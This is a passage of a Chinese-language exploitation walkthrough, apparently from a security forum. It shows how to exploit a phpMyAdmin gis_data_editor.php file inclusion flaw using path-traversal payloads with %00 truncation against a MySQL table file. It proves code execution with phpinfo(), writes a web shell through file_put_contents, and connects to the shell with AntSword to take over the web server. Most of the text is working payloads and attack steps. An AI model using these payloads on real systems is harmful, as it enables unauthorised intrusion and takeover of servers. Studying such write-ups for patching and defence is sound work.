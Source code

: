 构造payload  
gis\_data\[gis\_type\]=/../../../../../../../../../../../../phpstudy/mysql/data/wz/abc.frm%00&amp;a=phpinfo();

wz是数据库库名  
然后拼接起来的话就是  
./libraries/gis/pma*gis*/../../../../../../../../../../../../phpstudy/mysql/data/wz/abc.frm%00.php  
因为%00  
.php会被忽略  
&lt;hr&gt;

然后访问存在漏洞的页面  
gis\_data\_editor.php  
利用hackbar  
将其他的参数删掉  
留下token  
因为会通过token值进行一些判断  
如果没有token值可能被认定为CSRF攻击（应该）  
从而被拦截

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-bddf2bf8a19b1614859cca14e67c711cf61f2961.png)

- - - - - -

发送数据包之后如果没反应  
可以把上面的url滑到最后  
查看上面的url和自己填的一样不一样  
不一样就改了

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-451344822a7847a53304d23c931c38ff5ebe1d53.png)

- - - - - -

成功代码执行

### 写入木马

然后再改造payload写入木马

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-e271745756afc4d6ee97bd53a04d83b98abd1219.png)

gis\_data\[gis\_type\]=/../../../../../../../../../../../../phpstudy/mysql/data/wz/abc.frm%00&amp;a=file\_put\_contents(‘3.php’,’’);

这里的话用system() + echo 写木马会有点问题,所以就直接用file\_put\_contents()了

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-4e14081c7dc9cfafbe91cba469b3b13510e04693.png)

- - - - - -

访问3.php

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-dae7baae5518b3e19ffa841d2cf1fb2eea4cb965.png)

连接蚁剑  
成功拿下目标web服务器

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-8fcfb8ae673436e41d3c953f68b05f0cec6662c7.png)

#### 总结

还是刚刚说的那些，这里如果是Linux服务器的话，并且sql文件储存路径有大小写的话，就没办法拿到webshell了，并且还不能任意文件包含，还只能包含路径没有大写字符的，反正至少以我目前的水平是不行的，不过 linux 默认mysql文件的路径是 /var/lib/mysql/。默认情况下是无影响的。